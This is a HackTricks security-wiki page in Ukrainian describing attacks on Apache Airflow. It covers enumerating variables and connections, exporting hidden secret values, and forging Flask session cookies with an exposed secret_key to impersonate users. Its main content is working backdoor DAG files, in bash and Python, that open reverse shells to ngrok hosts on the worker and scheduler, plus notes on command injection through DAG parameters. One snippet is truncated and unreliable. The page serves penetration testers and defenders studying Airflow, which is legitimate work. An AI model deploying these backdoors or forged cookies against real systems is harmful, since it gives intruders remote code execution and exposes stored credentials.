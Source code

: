 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) слугує платформою для **орchestrating та планування даних pipelines або workflows**. Термін "орchestration" у контексті даних pipelines означає процес організації, координації та управління складними даними workflows, що походять з різних джерел. Основна мета цих оркестрованих даних pipelines полягає в наданні оброблених та споживаних наборів даних. Ці набори даних широко використовуються безліччю додатків, включаючи, але не обмежуючись, інструментами бізнес-аналітики, моделями науки про дані та машинного навчання, які є основою функціонування додатків великих даних.

В основному, Apache Airflow дозволить вам **планувати виконання коду, коли щось** (подія, cron) **відбувається**.

### Local Lab

#### Docker-Compose

Ви можете використовувати **файл конфігурації docker-compose з** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml), щоб запустити повне середовище apache airflow docker. (Якщо ви на MacOS, переконайтеся, що ви виділили принаймні 6 ГБ оперативної пам'яті для docker VM).

#### Minikube

Один із простих способів **запустити apache airflow** - це запустити його **з minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow може зберігати **чутливу інформацію** у своїй конфігурації або ви можете знайти слабкі конфігурації:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Перед початком атаки на Airflow ви повинні зрозуміти **як працюють дозволи**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Якщо у вас є **доступ до веб-консолі**, ви можете отримати доступ до деякої або всієї наступної інформації:

* **Змінні** (Користувацька чутлива інформація може зберігатися тут)
* **З'єднання** (Користувацька чутлива інформація може зберігатися тут)
* Доступ до них за адресою `http://<airflow>/connection/list/`
* [**Конфігурація**](./#airflow-configuration) (Чутлива інформація, така як **`secret_key`** та паролі, може зберігатися тут)
* Список **користувачів та ролей**
* **Код кожного DAG** (який може містити цікаву інформацію)

#### Retrieve Variables Values

Змінні можуть зберігатися в Airflow, щоб **DAG** могли **отримувати** їх значення. Це схоже на секрети інших платформ. Якщо у вас є **достатні дозволи**, ви можете отримати доступ до них у GUI за адресою `http://<airflow>/variable/list/`.\
Airflow за замовчуванням покаже значення змінної в GUI, однак, відповідно до [**цього**](https://marclamberti.com/blog/variables-with-apache-airflow/), можливо встановити **список змінних**, значення яких з'являться як **зірочки** в **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Однак ці **значення** все ще можна **отримати** через **CLI** (вам потрібно мати доступ до БД), **виконання довільного DAG**, **API** доступ до кінцевої точки змінних (API потрібно активувати) і **навіть сам GUI!**\
Щоб отримати доступ до цих значень з GUI, просто **виберіть змінні**, до яких ви хочете отримати доступ, і **натисніть на Дії -> Експорт**.\
Інший спосіб - виконати **брутфорс** до **прихованого значення**, використовуючи **фільтрацію пошуку**, поки ви його не отримаєте:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Якщо конфігурація **`expose_config`** встановлена на **True**, з **ролі Користувач** і **вище** можуть **читати** **конфігурацію в вебі**. У цій конфігурації з'являється **`secret_key`**, що означає, що будь-який користувач з цим дійсним ключем може **створити свій власний підписаний cookie, щоб видавати себе за будь-який інший обліковий запис користувача**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE в Airflow worker)

Якщо у вас є **доступ на запис** до місця, де **зберігаються DAG**, ви можете просто **створити один**, який надішле вам **зворотний шелл.**\
Зверніть увагу, що цей зворотний шелл буде виконуватись всередині **контейнера airflow worker**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE в Airflow scheduler)

Якщо ви налаштуєте щось на **виконання в корені коду**, на момент написання цього тексту, це буде **виконано планувальником** через кілька секунд після розміщення його в папці DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Створення DAG

Якщо вам вдасться **зламати машину всередині кластера DAG**, ви зможете створити нові **скрипти DAG** у папці `dags/`, і вони будуть **репліковані на решті машин** всередині кластера DAG.

#### Впровадження коду в DAG

Коли ви виконуєте DAG з GUI, ви можете **передавати аргументи** йому.\
Отже, якщо DAG не правильно закодований, він може бути **вразливим до впровадження команд.**\
Саме це сталося в цьому CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Все, що вам потрібно знати, щоб **почати шукати впровадження команд у DAG**, це те, що **параметри** **доступні** за допомогою коду **`dag_run.conf.get("param_name")`**.

Більше того, та ж вразливість може виникнути з **змінними** (зверніть увагу, що з достатніми привілеями ви могли б **контролювати значення змінних** в GUI). Змінні **доступні за допомогою**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Якщо вони використовуються, наприклад, всередині команди bash, ви можете виконати ін'єкцію команди.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

